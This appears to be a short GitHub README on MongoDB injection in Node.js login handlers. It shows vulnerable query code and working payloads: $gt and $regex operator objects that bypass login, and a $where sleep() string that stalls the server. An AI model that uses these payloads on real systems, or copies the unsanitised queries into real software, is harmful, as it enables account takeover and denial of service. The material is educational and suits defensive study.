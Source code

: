 

### MONGODB INJECTION VULNERABILITY CODE SMELLS LIKE BELOW

##### check for this nosqlinjector tool
https://github.com/blessingcharles/nosqlInjector/

## if you check login like this without encrypting password we are in

    const {email , password} = req.body

        if(!email || !password) return res.json({error : "invalid data"})

        let identifyUser ;

        try{
            identifyUser = await userModel.findOne({email:email,password:password})
        }
        catch(err){
            return res.json({error : "something went wrong"})
        }

        
        if(identifyUser){

            //generate token other stuffs
            return res.json({msg:"you hacked it"})
        }


## INJECTION VALUES

        {
            "email":{
                "$gt":""
            },
            "password":{
                "$gt":""
            }
        }


        {
            "email":{
                "$regex":".*"
            },
            "password":{
                "$gt":""
            }
        }
[lack of proper sanitization may lead to leverage in lots of authorization issues]

### eventhough you encrypt your password and store , attacker can use regex to validate the name and bruteforce the password

        [codeSNIPPETS]
            try{
                identifyUser = await User.findOne({email:email})
            }
            catch(err){
                const error = new httpError('try again later',500)
                return next(error);
            }
            //decoding the password and comparing
            let isPasswordValid = false
            try{
            isPasswordValid= await bcrypt.compare(password,identifyUser.password)
            }catch(err){
                let error = new Error('failed to login user');
                error.code = 400
                return next(error)
            }

        INJECTION VALUE

        {
            "email":{
                "$regex":"t.*"
            },
            "password":"thomas"
        }


#### use of where clause leads to usage of many functions like sleep leads to dos of the server


        let {email , password} = req.body

        if(!email || !password) return res.json({error : "invalid data"})

        let identifyUser ;

        console.log(email)
        
        const query = {$where:"this.email == '"+email+ "' "}
        
        console.log(query)

         //  {$where:"this.email == '' ; sleep(5000);''"}

        try{
            identifyUser = await userModel.findOne(query)
        }
        catch(err){
            console.log(err)
            return res.json({error : "something went wrong"})
        }

## injecting value

    {
        "email":"';sleep(50000);'",
        "password":"thomas"
    }



